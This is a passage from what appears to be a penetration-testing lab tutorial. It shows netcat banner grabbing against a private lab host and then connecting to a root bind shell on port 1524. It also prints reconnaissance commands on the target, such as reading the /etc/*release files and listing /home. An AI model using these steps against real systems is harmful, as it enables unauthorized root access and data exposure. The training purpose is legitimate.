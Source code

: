 We also have a few ambiguous（模糊的） ports here.

Whenever Nmap provides you with the service and then a question mark at the end, that means that it's not sure what this service is and what it's used for.

We would probably need to manually check these ports with Netcat to see what banner they bring up.

Whenever you don't get a service or the banner from a service with Nmap. This is where manual banner grabbing would come into play.

```
nc -nv 10.2.20.22 512

ls
```

```
nc -nv 10.2.20.22 513

ls
```

```
nc -nv 10.2.20.22 514

ls
```

```
nc -nv 10.2.20.22 1524
```

```
root@d1d6a9361621:/# 
```

I've connected to a specific port on the target system with Netcat, and I've received a root shell on the target system.

What this is a bind shell listener. I mentioned how bind shells work. You need to have the listener on the target system, and then the attacker connects to the listener on the target system with Netcat.

Port 1524 is a bind shell listener, and it's provided us with root access on the target system.

```
root@d1d6a9361621:/# ls
```

Get the distribution information.

```
root@d1d6a9361621:/# cat /etc/*release
```

```
root@d1d6a9361621:/# cd /home
root@d1d6a9361621:/home# ls
```

We have WebDAV configured.
